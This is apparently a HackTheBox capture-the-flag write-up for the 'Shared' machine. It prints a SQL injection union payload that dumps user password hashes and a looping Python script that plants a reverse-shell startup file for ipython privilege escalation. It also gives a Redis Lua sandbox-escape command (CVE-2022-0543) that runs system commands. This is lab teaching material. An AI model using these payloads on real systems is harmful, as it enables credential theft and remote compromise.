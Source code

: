 # Shared

Performing a **nmap** scanning to discover open ports and services versions on the machine.

![Untitled](Shared/Untitled.png)

The request on HTTP server lead us to the domain “shared.htb”.

![Untitled](Shared/Untitled%201.png)

First contact with the main page, it appears to be a CMS called prestashop.

![Untitled](Shared/Untitled%202.png)

The robots file has interesting parameters and routes to look at.

![Untitled](Shared/Untitled%203.png)

Performing a subdomain scan, we can look there is a subdomain called checkout.

![Untitled](Shared/Untitled%204.png)

The domain checkout has data about user’s shopping cart, we need to find a way to fill these columns.

![Untitled](Shared/Untitled%205.png)

On the main page, we selected a cloth and proceed to checkout button that will send us to the checkout subdomain with some data.

![Untitled](Shared/Untitled%206.png)

The request is done to the checkout subdomain and the content of the columns  is controlled by the custom_cart cookie, we can try some SQL injections.

![Untitled](Shared/Untitled%207.png)

The SQL Injection vulnerability worked in the input field. Example sending wrong malicious query:

![Untitled](Shared/Untitled%208.png)

Correct malicious query, one being equal to one:

![Untitled](Shared/Untitled%209.png)

Now we can use the scope to perform union select attack.

![Untitled](Shared/Untitled%2010.png)

Query to find the hash of the system:

```python
'union all select 1,group_concat(username, password, '\n'),3 from user#
```

The hash of the user james_mason was converted in the crackstation.

![Untitled](Shared/Untitled%2011.png)

The password and the user was used to login on SSH.

![Untitled](Shared/Untitled%2012.png)

In the prestashop configuration file there is the database credential.

![Untitled](Shared/Untitled%2013.png)

**Dan_smith user**

The user “**dan_smith**” has a script running ipython, to display this information you can use the pspy binary.

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

![Untitled](Shared/Untitled%2014.png)

After some research, I found a report in GitHub talking about the privilege escalation vulnerability using ipython. 

![Untitled](Shared/Untitled%2015.png)

You need to follow the steps of the report to reproduce the exploit, write a reverse-shell in the .py script, copy this script to the “/opt/scripts_review” folder. Remember that, the content of the folder is cleaned time by time, craft a python script to write automatically on the directory.

```python
import os, time

while True:
	os.system("mkdir -m 777 -p /opt/scripts_review/profile_default")
	os.system("mkdir -m 777 -p /opt/scripts_review/profile_default/startup/")
	os.system("cp /home/james_mason/.ipython/profile_default/startup/foo.py /opt/scripts_review/profile_default/startup/foo.py")
	time.sleep(1)
```

After some time the connection was received and we took the flag

![Untitled](Shared/Untitled%2016.png)

The machine has a file called connector, it performs a connection with the redis-server.

![Untitled](Shared/Untitled%2017.png)

After download the binary and tried run this on our machine, when it is executed the binary sends a authentication to the server.

![Untitled](Shared/Untitled%2018.png)

Opening NetCat listener on the port 6379 the authentication key was received.

![Untitled](Shared/Untitled%2019.png)

There is a  sandbox escape in Redis loading lua shared objects.

****Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)**** [https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md) 

```python
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

After run the command, the root flag was obtained

![Untitled](Shared/Untitled%2020.png)